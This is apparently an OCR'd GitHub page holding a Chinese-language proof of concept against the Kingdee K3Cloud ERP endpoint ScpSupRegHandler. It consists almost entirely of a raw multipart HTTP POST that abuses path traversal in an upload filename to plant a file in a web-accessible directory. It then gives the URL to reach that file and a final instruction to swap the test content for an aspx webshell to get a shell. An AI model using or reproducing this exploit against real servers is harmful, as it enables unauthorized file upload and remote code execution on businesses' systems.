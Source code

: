 # -
访问接口  
http://127.0.0.1/k3cloud/SRM/ScpSupRegHandler  

POC：  
POST /k3cloud/SRM/ScpSupRegHandler HTTP/1.1  
Host: 127.0.0.1  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0   
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8   
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2   
Accept-Encoding: gzip, deflate, br  
Connection: keep-alive  
Upgrade-Insecure-Requests: 1  
Sec-Fetch-Dest: document  
Sec-Fetch-Mode: navigate  
Sec-Fetch-Site: none  
Sec-Fetch-User: ?1  
Content-Type: multipart/form-data; boundary=2ac719f8e29343df94aa4ab49e456061  
Content-Length: 1782  
--2ac719f8e29343df94aa4ab49e456061  
Content-Disposition: form-data; name="dbId_v"  
  
.  
--2ac719f8e29343df94aa4ab49e456061  
Content-Disposition: form-data; name="FID"  
  
2023  
--2ac719f8e29343df94aa4ab49e456061  
Content-Disposition: form-data; name="FAtt"; filename="../../../../uploadfiles/kingdee.txt"  
Content-Type: text/plain  
  
test  
--2ac719f8e29343df94aa4ab49e456061—-  

上传成功访问路径  
http://127.0.0.1/k3cloud/uploadfiles/kingdee.txt  
替换poc内上传内容为aspx马，提交上传getshell
